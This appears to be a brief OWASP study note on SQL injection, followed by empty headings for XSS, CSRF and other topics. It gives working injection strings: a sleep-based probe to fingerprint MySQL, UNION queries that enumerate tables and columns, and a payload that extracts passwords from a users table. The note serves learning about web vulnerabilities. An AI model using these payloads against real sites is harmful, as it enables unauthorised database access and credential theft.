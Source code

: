 ## OWASP
### SQL Injection
- Find the database
    Suppose a vulnerable website with a backend MySql database allows querying data like so
    ```bash
    $ SELECT col1, col2, col3 from <table> where <col> Like '%{user_input}%'
    ```
    We can verify its a Mysql Database by passing
    ```bash
    value' AND 1 == sleep(3);--
    ```
    If there is a delay in response due to sleep, then its a MySql database else keep trying for equivalent commands for other     database
 - Find other tables

    If we pass this value in the user field
    ```bash
    some_value' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.tables);--
    ```
    This will result in the follwing query getting executed in backend
    ```bash
    SELECT col1, col2, col3 from <table> where <col> Like '%some_value' 
    UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.tables);--%'
    ```
 - Query a sensitive table

    One way to randomly guess is to select from a particular table and execute a sleep. If the table exists then, you will see     delay in response else you will immediately see an error.

    OR

    pass below in user input to see the columns of the sensitive table
    ```bash
    some_value' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME='users');--
    ```
    Now you can query data from sensitive table
    ```bash
    some_value' UNION (SELECT user_password, address, 3 FROM users);--
    ```
  
    
- Javascript injection
- XSS
  - Reflective
  - persistent
- CSRF
- Broken authentication
- Privilege excalation
